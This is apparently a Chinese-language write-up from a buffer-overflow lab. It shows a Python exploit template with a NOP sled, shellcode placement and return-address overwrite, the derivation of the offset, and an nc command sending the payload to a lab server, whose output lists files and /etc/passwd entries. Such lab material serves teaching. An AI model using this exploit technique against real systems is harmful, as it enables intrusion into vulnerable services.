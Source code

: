 ```python
    "DDDD"   # Placeholder for argv[3] -- > NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffd438 + 8      # Change this number
offset = 116              # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

其中，

- shellcode 即为刚刚 `shellcode_32.py` 中的 shellcode
- $$\text{ret}$$$$=\text{ebp}+n$$
  - `ebp` 就是刚刚 `echo hello` 中得到的 `ebp`，因为关闭了地址随机化，所以每次都一样
  - $$n$$ 只要大于等于 $$8$$ 都可以
- $$\text{offset}=$$`0xffffd438`$$-$$`0xffffd3c8`$$+4$$

然后执行

```shell
./exploit.py
cat badfile | nc 10.9.0.5 9090
```

得到了结果

```plaintext
server-1-10.9.0.5 | Got a connection from 10.9.0.1
server-1-10.9.0.5 | Starting stack
server-1-10.9.0.5 | Input size: 517
server-1-10.9.0.5 | Frame Pointer (ebp) inside bof():  0xffffd438
server-1-10.9.0.5 | Buffer's address inside bof():     0xffffd3c8
server-1-10.9.0.5 | total 764
server-1-10.9.0.5 | -rw------- 1 root root 315392 Jul 10 14:41 core
server-1-10.9.0.5 | -rwxrwxr-x 1 root root  17880 Jun 15 08:41 server
server-1-10.9.0.5 | -rwxrwxr-x 1 root root 709188 Jun 15 08:41 stack
server-1-10.9.0.5 | Hello 32
server-1-10.9.0.5 | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
server-1-10.9.0.5 | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
server-1-10.9.0.5 | _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
server-1-10.9.0.5 | seed:x:1000:1000::/home/seed:/bin/bash
```
